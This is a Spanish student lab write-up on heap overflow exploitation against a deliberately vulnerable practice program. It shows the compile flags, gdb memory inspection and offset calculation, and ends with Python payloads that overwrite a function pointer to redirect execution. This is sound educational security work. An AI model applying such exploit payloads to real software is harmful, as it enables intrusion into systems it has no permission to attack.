






# Heap Overflow

Alberto Miguel Diez - amigud00 [at] estudiantes [d0t] unileon [d0t] es

## 1. Compilación del programa

Para compilar el programa se debe utiliar el siguiente comando:

```bash
gcc heapexample.c -w -g -no-pie -z execstack -o heapexample
```

En la siguiente imagen se puede comprobar la ejecución del programa con algunos argumentos. Se puede ver que la segunda ejecución da _Segmentation fault (core dumped)_ pues se pasan 101 caracteres cuando el buffer solo puede almacenar 64. Esto significa que no se controla la entrada en el código.


## 2. Examinar el funcionamiento del código

El objetivo en este paso es comprobar como está el mapa de memoria del programa. Para ello se ejecuta el comando _info proc map_ en gdb. Como input al programa se pasa la cadena `XXXX` que en hexadecimal es `0x58585858`.

```bash
gdb ./heapexample
(gdb) list 25,40
(gdb) b 38
(gdb) run XXXX
(gdb) info proc map
```

En la siguiente imagen se puede observar el mapa de memoria de la aplicación. En mi caso, la pila va de la posición `0x405000` a la `0x426000`.



A continuación, consulto la dirección de memoria `0x405000` para comprobar dónde se guarda la información de las estructuras para las que reserva memoria el programa.

```bash
(gdb) x/240x 0x405000
```



En la imagen anterior se observa que en la posición `0x4052a0` se encuentra en hexadecimal el _input_ `XXXX`.

Posteriormente, realizo el desensamblado de la función `f_espero_fuera` utilizando la herramienta gdb y con el siguiente comando:

```bash
(gdb) disassemble f_espero_fuera
```

Se puede comprobar que la funciónn comienza en la posición de memoria `0x4011ad`. Esto implica que en el mapa de la pila se debe observar esta posición de memoria pues a la que apunta `f->fp` (se encuentra en la posición `0x4052f0` del _heap_).



## 3. Creación de un script

Utilizando Python se va a crear un script que ayude a generar una entrada para generar un _heap overflow_.

```python
#!/usr/bin/python

print 'X' * 90
```

Este script da error al ejecutarlo pues se completa el buffer de entrada.

## 4. Modificación del registro rip

Se va a modificar el registro rip, este almacena la dirección de memoria de la próxima instrucción que se debe ejecutar en un programa. Para ello voy a insertar en la posición de memoria `0x4052f0` (donde se encuentra el puntero a la función) el valor `0x46454443`.

Primero calculo la distancia entre la posición de memoria `0x4052a0` donde se empieza a almacenar el buffer de entrada y la `0x4052f0`. Por lo tanto, `0x4052f0` - `0x4052a0` = `0x50`. Este valor en decimal es `80`, es decir, hay 80 bytes de distancia entre ambas posiciones de memoria. Por lo tanto, hay que completar con 80 bytes y posteriormente insertar el valor `0x46454443` (CDEF en código ASCII).

```python
#!/usr/bin/python

print 'X' * 80 + 'CDEF'
```

En la siguiente imagen se puede comprobar que se modificado correctamente el registro rip.



## 5. Obtener dirección de memoria f_entrar

La función que queremos ejecutar se encuentra en la posición de memoria `0x00401196`.



## 6. Shellcode

El scrip desarrollado es el siguiente:

```python
#!/usr/bin/python

print 'X' * 80 + '\x96\x11\x40\x00'
```

**Importante: Tener en cuenta el Endian**

En la siguiente imagen se puede comprobar que se ha realizado el shellcode correctamente.


